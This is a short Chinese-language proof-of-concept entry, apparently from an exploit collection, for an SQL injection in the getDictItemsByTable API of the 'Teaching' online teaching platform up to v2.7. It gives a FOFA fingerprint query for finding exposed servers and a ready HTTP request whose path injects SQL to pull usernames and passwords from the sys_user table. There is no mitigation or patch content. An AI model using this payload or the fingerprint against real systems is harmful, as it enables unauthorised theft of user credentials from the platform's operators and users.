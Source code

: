 # Teaching在线教学平台getDictItemsByTable存在sql注入漏洞

Teaching 在线教学平台 <= v2.7版本存在SQL注入漏洞，攻击者利用此漏洞可以获取系统敏感数据

## fofa

```javascript
icon_hash="1778610975"
```

## poc

```javascript
GET /api/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/username,password%20'/x.js HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![null](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411012002071.png)
